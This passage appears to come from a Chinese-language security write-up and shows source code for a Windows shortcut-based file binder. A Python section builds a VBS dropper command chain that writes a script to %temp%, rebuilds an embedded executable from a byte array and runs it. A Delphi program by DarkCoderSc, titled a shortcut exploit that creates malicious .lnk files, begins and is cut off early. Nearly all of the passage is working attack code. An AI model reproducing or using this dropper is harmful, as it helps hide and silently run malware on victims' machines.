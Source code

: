 ```
    while True:
        s = FFile.read(1)
        if len(s) == 0: break
        b = ord(s)
        payload += str(b) + ","
    payload = payload[:-1]
    payload += ")"
    FFile.close
#
# WRITE VBS EXTRACTION AND EXECUTION CODE TO BE PLACED IN A SHELL
#
tempFile      = " &gt;&gt; %temp%\tmp.vbs"
maliciousVBS =  "del %temp%\tmp.vbs &amp; "
maliciousVBS += "echo "  + payload + tempFile                                                                                       + " &amp; "
maliciousVBS += "echo "  + "Set FSO = Wscript.CreateObject("Scripting.FileSystemObject")"                                         + tempFile + " &amp; "
maliciousVBS += "echo "  + "Set CTF = FSO.CreateTextFile("%temp%\tmp.exe")"                                                      + tempFile + " &amp; "
maliciousVBS += "echo "  + "for i = 0 to UBound(payload)"                                                                           + tempFile + " &amp; "
maliciousVBS += "echo "  + "buff = buff^&amp;chr(payload(i))"                                                                           + tempFile + " &amp; "
maliciousVBS += "echo "  + "next"                                                                                                   + tempFile + " &amp; "
maliciousVBS += "echo "  + "CTF.Write buff"                                                                                         + tempFile + " &amp; "
maliciousVBS += "echo "  + "Dim objShell"                                                                                           + tempFile + " &amp; "
maliciousVBS += "echo "  + "Set objShell = WScript.CreateObject("WScript.Shell")"                                                 + tempFile + " &amp; "
maliciousVBS += "echo "  + "CTF.Close"                                                                                              + tempFile + " &amp; "
maliciousVBS += "echo "  + "objShell.Run("%temp%\tmp.exe")"                                                                      + tempFile + " &amp; "
maliciousVBS += "%temp%\tmp.vbs"
with open(FFileDest, 'w') as FDest:
    FDest.write(maliciousVBS)
```

<br>

**将内联恶意VBS应用程序提取器注入到快捷方式的脚本（Delphi） **



```
(*
 SHORTCUT EXPLOIT           : FILE BINDER (WRAPPER)
 DISCOVERED AND CODED BY    : @DarkCoderSc
 https://twitter.com/DarkCoderSc
 Lead Developer / Security Researcher at Phrozen SAS (https://phrozensoft.com)
 jplesueur@phrozensoft.com
*)
program Shortcut_gen;
`{`$APPTYPE CONSOLE`}`
uses
  System.SysUtils, ActiveX, ShlObj, ComObj, Windows, Classes;
function MaliciousLnk(cmd, destPath : String) : Boolean;
var cObject   : IUnknown;
    shellLink : IShellLink;
    PFile     : IPersistFile;
begin
  result := false;
  CoInitialize(nil);
```